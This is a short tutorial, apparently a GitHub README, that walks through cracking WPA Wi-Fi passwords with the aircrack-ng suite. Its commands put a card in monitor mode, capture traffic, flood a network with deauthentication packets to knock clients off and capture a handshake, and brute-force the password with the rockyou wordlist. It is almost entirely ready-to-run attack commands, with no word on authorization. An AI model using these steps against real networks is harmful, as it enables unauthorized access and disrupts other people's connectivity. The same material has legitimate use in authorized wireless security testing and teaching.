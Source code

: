 Since WPA is a strong protocol we can't simply hack it, but we can bruteforce it!

### Useful Commands

First we want to turn on the interface in monitor mode, given that the monitor mode is supported by your card, but we have to kill the processes that interfere with the process of turning the interface into monitor mode.

```bash
# Kill the processes that interfere with starting wlan0 in monitor mode
sudo ifconfig wlan0 down
sudo airmon-ng check kill
# Now put the interface in monitor mode, put the interface up and restart network manager and 
sudo airmon-ng start wlan0
sudo service NetworkManager restart
sudo ifconfig wlan0 up
```

Now we might need to unplug the USB device then plug it back.

Then we run the following command to start capturing packets:

```bash
sudo airodump-ng wlan0
# To only display the access point that we want, we can use the following command:
sudo airodump-ng wlan0 -d <BSSID>
```

Now we can use the following command to write the captures to a file:

```bash
sudo airodump-ng -w <name of file> -c <channel> --bssid <BSSID> wlan0
```

Next ,we will disconnect a device from a network using deauth packet so we can capture a handshake, and to do so we will use the following command:

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0
```

Finally we will start the brute forcing by using the following command:

```bash
aircrack-ng <.cap file> -w /usr/share/wordlists/rockyou.txt
```

Note: if we want to go back into managed mode, we can use the following command:

```bash
sudo airmon-ng stop wlan0
```